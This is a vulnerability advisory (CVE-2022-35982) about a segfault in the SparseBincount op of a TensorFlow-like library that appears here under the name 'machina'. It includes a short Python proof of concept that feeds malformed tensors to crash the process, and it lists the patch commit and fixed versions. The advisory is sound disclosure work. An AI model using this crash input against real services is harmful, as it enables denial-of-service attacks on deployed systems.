 ## TFSA-2022-113: Segfault in `SparseBincount`

### CVE Number
CVE-2022-35982

### Impact
If `SparseBincount` is given inputs for `indices`, `values`, and `dense_shape` that do not make a valid sparse tensor, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf
binary_output = True
indices = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int64, seed=-1288)
values = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-9366)
dense_shape = tf.random.uniform(shape=[0], minval=-10000, maxval=10000, dtype=tf.int64, seed=-9878)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.SparseBincount(indices=indices, values=values, dense_shape=dense_shape, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [40adbe4dd15b582b0210dfbf40c243a62f5119fa](https://github.com/machina/machina/commit/40adbe4dd15b582b0210dfbf40c243a62f5119fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
